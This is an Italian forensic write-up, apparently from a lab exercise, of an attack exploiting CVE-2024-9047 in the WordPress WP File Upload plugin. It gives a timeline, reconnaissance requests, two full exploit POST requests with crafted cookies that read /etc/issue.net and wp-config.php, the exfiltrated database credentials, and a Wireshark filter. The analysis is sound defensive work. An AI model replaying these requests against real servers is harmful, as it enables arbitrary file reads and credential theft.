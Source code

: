 # CVE-2024-9047 - (58.16.78.90 -> 192.168.100.101:80)

Flussi TCP confermano un’azione potenzialmente malevola da parte di un attore che cerca di ottenere infomrazioni sul plugin **WP File Upload**. Le richieste analizzate indicano un chiaro tentativo di ricognizione iniziale, seguito da un exploit mirato volto a esfiltrare file sensibili dal server.


## When

| **Evento**                     | **Timestamp** | **TCP Stream** | **Dettagli**                                   |
|--------------------------------|---------------|----------------|----------------------------------------------- |
| Raccolta di infomrazioni       | 22:42:09:94   | 10             | GET /wp-content/plugins/wp-file-upload/                   |
| Primo exploit                 | 22:43:34:29   | 193             | POST /wp-content/plugins/wp-file-upload/                   |
| Secondo exploit               | 22:43:43:57   | 215             | POST /wp-content/plugins/wp-file-upload/                   |

## Who/Where

| **Ruolo**         | **Indirizzo IP**       | **Porta**       |
|--------------------|------------------------|-----------------|
| Attaccante         | 58.16.78.90           | 34970,49736,46892   |
| Server compromesso | 192.168.100.101       | 80 (srv-www)    |


## What

1. L’attaccante ha identificato la presenza del plugin **wp-file-upload** e la sua versione.

```sh
GET /wp-content/plugins/wp-file-upload/css/wordpress_file_upload_style.css?ver=6.8
GET /wp-content/plugins/wp-file-upload/css/wordpress_file_upload_adminbarstyle.css?ver=6.8
GET /wp-content/plugins/wp-file-upload/vendor/jquery/jquery-ui-timepicker-addon.min.js?ver=6.8
```

2. Exploit sull inforkazioni del SO

```sh
POST /wp-content/plugins/wp-file-upload/wfu_file_downloader.php HTTP/1.1
Host: www.potenzio.com
User-Agent: python-requests/2.32.3
...
Cookie: wp_wpfileupload_testupload=Nxploited; wfu_storage_file123=/etc/issue.net; wfu_download_ticket_ticket123=9876543210987; wfu_ABSPATH=/
...
file=file123&ticket=ticket123&handler=dboption&session_legacy=1&dboption_base=cookies&dboption_useold=0&wfu_cookie=wp_wpfileupload_testupload
```

3. Exploit sull infomrazioni di configurazione

```sh
POST /wp-content/plugins/wp-file-upload/wfu_file_downloader.php HTTP/1.1
Host: www.potenzio.com
User-Agent: python-requests/2.32.3
....
Cookie: wp_wpfileupload_testupload=Nxploited; wfu_storage_file123=/var/www/html/wp-config.php; wfu_download_ticket_ticket123=9876543210987; wfu_ABSPATH=/
....
file=file123&ticket=ticket123&handler=dboption&session_legacy=1&dboption_base=cookies&dboption_useold=0&wfu_cookie=wp_wpfileupload_testupload
```

Contenuto esfiltrato:

```php
// ** Database settings//

define( 'DB_NAME', 'wpdb' ); /** The name of the database for WordPress */
define( 'DB_USER', 'wp' ); /** Database username */
define( 'DB_PASSWORD', 'secret4wp' ); /** Database password */
define( 'DB_HOST', '10.0.100.100' ); /** Database hostname */
define( 'DB_CHARSET', 'utf8mb4' ); /** Database charset to use in creating database tables. */
define( 'DB_COLLATE', '' ); /** The database collate type. Don't change this if in doubt. */

/**
 * Authentication unique keys and salts.
 */
define( 'AUTH_KEY','*&xb-+qX)0]kRKF@-Y  Oig}y6f,QBVws)B:sDUA=yEJK.<;4eJ.Ay~g1EfrX-uI' );
...
```

## How
L'attaccante ha sfruttato la vulberabilità [CVE-2024-9047](https://nvd.nist.gov/vuln/detail/cve-2024-9047)
basata su:

- Manipolazione della richiesta HTTP
Il client ha inviato una richiesta POST a wfu_file_downloader.php, simulando un'operazione di download legittima.
Tuttavia, ha incluso parametri dannosi come wfu_storage_file123=/var/www/html/wp-config.php, forzando il server a restituire il file di configurazione.
- Abuso dei cookie di sessione
Il client ha utilizzato cookie speciali (wp_wpfileupload_testupload=Nxploited) e un ticket di download (wfu_download_ticket_ticket123=9876543210987) per aggirare i controlli di autorizzazione del plugin e ottenere accesso non autorizzato.

## Why

Esfiltrazione dei file di configurazione del database WordPress, contenenti:

- Credenziali di accesso (username e password)
- Informazioni di connessione al DB
- Chiavi di autenticazione e salt WordPress


**Filtri Wireshark utilizzati**

```bash
http.request.method == "POST" && http.request.uri contains "/wp-content/plugins/wp-file-upload/"
```